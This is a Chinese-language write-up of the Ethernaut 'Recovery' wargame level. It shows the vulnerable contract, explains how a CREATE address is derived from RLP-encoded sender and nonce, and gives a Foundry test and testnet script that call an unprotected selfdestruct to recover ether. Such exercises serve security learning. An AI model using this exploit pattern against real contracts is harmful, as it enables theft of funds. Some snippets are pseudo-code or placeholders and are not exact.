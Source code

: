 # Foundry 通关 Ethernaut（16）— Recovery

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

找回转给新 Token 合约的钱

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. Recovery :  只有一个 generateToken 的功能，通过 new 关键词，实例化一个新合约
2. SimpleToken ：一个简单的 Token 合约，主要具有转账 transfer 和 destroy 自毁两个函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

## 思路

这道题主要在于如何找到新创建的合约地址。这里，对于合约创建合约来说，通过 new 关键词创建的合约，其地址是确定性的，我们可以通过计算得出地址（create）：

1. 对发送者地址和nonce进行 RLP 编码
2. 将编码结果进行 Keccak-256 哈希运算
3. 取这个哈希值的最后20字节

这种方法可以确保每个新创建的合约都有一个唯一的地址。每次账户发起交易（包括部署合约），其nonce就会递增。这意味着相同的账户无法再次生成相同的合约地址，因为每次部署合约时它的nonce都会不同。(当然还有一种 create2 计算)

Solidity 中

```solidity
//  nonce 为 0 时生成的地址
nonce0 =address(keccak256(0xd6, 0x94,address, 0x80))
nonce1 =address(keccak256(0xd6, 0x94,address, 0x01))
```

这里哈希的值涉及到 RLP 编码:  `RLP[msg.sender,nonce]` ,下面我们通过计算，看一下这个 **0xd6, 0x94** 是怎么计算的

**前提：**

- [RLP 计算规则](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/)，需要计算 RLP [ address , nonce ]
- address 20字节，nonce 为 0x01,1个字节
- 0xd6 = 214, 0x94=148，0x80 = 128，0xc0 = 192

1. 

RLP: address (20字节字符串)

0x80 + 20 = 148= 0x94

**0x94，address**

2. 

RLP:  nonce （0-127内的整数）

**nonce 本身**

3. 

总长度：**0xc0 + 21 + 1 = 0xd6**

因此 `RLP[msg.sender,nonce]` 编码结果为 **0xd6，0x94，address, 0x01**

## 踩坑

这里涉及到字符串和整数一起进行 RLP 编码，规则的计算有多种，需要慎重

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {Recovery,SimpleToken} from "../src/Recovery.sol";
   
   contract RecoveryTest is Test {
       Recovery public recovery;
       SimpleToken public simple;
   
       function setUp() public {
           recovery = new Recovery();
           recovery.generateToken("Test", 100);
       }
   
       function test_simple() public {
           // 计算合约 new 创建的合约地址
           address _address = address(uint160(
               uint256(
                   keccak256(
                       abi.encodePacked(
                           bytes1(0xd6),
                           bytes1(0x94),
                           address(recovery),
                           bytes1(0x01)
                       )
                   )
               )
           ));
           // 先转账
           payable(_address).call{value: 0.001 ether}("");
           simple = SimpleToken(payable(_address));
   
           console.log("before",address(recovery).balance,address(simple).balance);
           // 自毁函数
           simple.destroy(payable(address(recovery)));
           console.log("after",address(recovery).balance,address(simple).balance);
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/Recovery.t.sol
   ```

   ![image-20240915153324833](../pict/image-20240915153324833.png)

我们可以看到，攻击后，转给创建的 Token 合约的 eth 成功找回

### 链上交互

1. 部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Recovery, SimpleToken} from "../src/Recovery.sol";
   
   contract RecoveryScript is Script {
       Recovery public recovery;
       SimpleToken public simple;
       address public _recovery;
   
       function setUp() public {
           _recovery = "关卡实例地址";
           recovery = Recovery(_recovery); 
             
           address _address = address(uint160(
               uint256(
                   keccak256(
                       abi.encodePacked(
                           bytes1(0xd6),
                           bytes1(0x94),
                           _recovery,
                           bytes1(0x01)
                       )
                   )
               )
           ));
           simple = SimpleToken(payable(_address));
       }
   
       function run() public {
           vm.startBroadcast();
           console.log("before:", _recovery.balance);
   
           simple.destroy(payable(_recovery));
   
           console.log("after:", _recovery.balance);
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```
   forge script script/Recovery.s.sol --rpc-url $Sepolia_RPC_URL --broadcast  --account [account] interactive
   ```

   ![image-20240915153917944](../pict/image-20240915153917944.png)

交互后，recovery 合约成功获得新建的 token 合约自毁转回来的 eth







